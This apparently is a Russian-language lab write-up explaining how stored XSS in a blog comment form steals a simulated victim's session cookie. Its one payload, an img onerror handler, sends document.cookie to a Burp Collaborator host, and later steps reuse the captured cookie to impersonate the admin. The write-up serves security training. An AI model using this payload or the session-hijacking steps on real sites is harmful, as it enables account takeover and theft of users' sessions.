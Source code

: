 ## 🍪 Использование межсайтового скриптинга для кражи файлов cookie

Кража куки — традиционный способ эксплуатации XSS. Большинство веб-приложений используют куки для обработки сеансов. Вы можете использовать уязвимости межсайтового скриптинга, чтобы отправлять куки жертвы на свой домен, а затем вручную внедрять куки в браузер и выдавать себя за жертву.

### Ограничения на практике:

1. Жертва, возможно, не вошла в систему.
2. Многие приложения скрывают свои куки от JavaScript с помощью флага `HttpOnly`.
3. Сеансы могут быть заблокированы по дополнительным факторам, таким как IP-адрес пользователя.
4. Сеанс может истечь до того, как вы успеете его перехватить.

### 🔬 Пример лабораторной работы: эксплуатация сохранённой уязвимости XSS
Эта лаборатория содержит сохранённую уязвимость XSS в функции комментариев блога. Имитируемый пользователь-жертва просматривает все комментарии после их публикации. Чтобы решить эту лабораторную работу, воспользуйтесь уязвимостью, чтобы извлечь сеансовый cookie жертвы, а затем используйте этот cookie, чтобы выдать себя за жертву.

### Шаги:

1. Зайдите на любой из постов и найдите форму комментария внизу страницы:

   ![image](https://github.com/user-attachments/assets/6729768d-caae-4d96-8350-4b9f93340407)![image](https://github.com/user-attachments/assets/d9982d81-88db-4261-b408-f54eaf6bd9a5)

2. Введите случайные значения в форму и добавьте следующую полезную нагрузку в комментарий:

   ```html
   <img src=x onerror=this.src='http://burp.collaborator.url/?c='+document.cookie>
   ```

3. Перейдите на вкладку Collaborator и нажмите "Poll now". Вы должны увидеть HTTP-взаимодействие. Если ничего не появилось, подождите несколько секунд и попробуйте снова.

   ![image](https://github.com/user-attachments/assets/42799ca7-4967-4a3c-9830-6d3c89f19847)

4. Обратите внимание на значение cookie-файла жертвы в теле POST-запроса:

   ![image](https://github.com/user-attachments/assets/f6106c1e-e2d0-4903-ab3d-e04cd09240ce)

5. Перезагрузите главную страницу блога, используя Burp Proxy или Burp Repeater. Замените свой собственный сеансовый cookie на тот, который вы захватили через Burp Collaborator. Отправьте запрос на решение лабораторной работы. Чтобы доказать, что вы успешно перехватили сеанс пользователя-администратора, используйте тот же cookie в запросе на `/my-account` для загрузки страницы учётной записи пользователя-администратора.
